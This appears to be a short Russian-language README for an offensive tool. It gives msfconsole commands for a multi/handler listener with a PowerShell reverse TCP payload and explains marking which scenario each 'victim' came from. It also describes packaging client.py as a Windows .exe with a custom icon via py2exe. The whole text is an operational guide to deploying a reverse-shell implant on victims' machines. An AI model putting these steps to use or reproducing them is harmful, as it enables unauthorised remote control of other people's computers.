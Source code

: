 # Использование

1. Запустить листенер msfconsole

```bash
use multi/handler
set payload cmd/windows/powershell_reverse_tcp
set LHOST <IP>
set LPORT 4443
set ExitOnSession false
exploit -j
```

2. Скрипт client.py 

Так как исполняемый файл может использоваться в нескольких сценариях, то нужно различать из какого именно сценария пришла жертва.

Например, для каждого сценария можно указать в переменной `currentWD` разное количество символов `>`

3. Конвертация

Конвертируем из формата `py` в формат `exe` с помощью py2exe.
Чтобы исполняемый файл работал на Windows 7 и на Windows 10, конвертирование производить на ОС Windows 7.
Иконка обязательно формата `.ico`

```bash
python setup.py install
```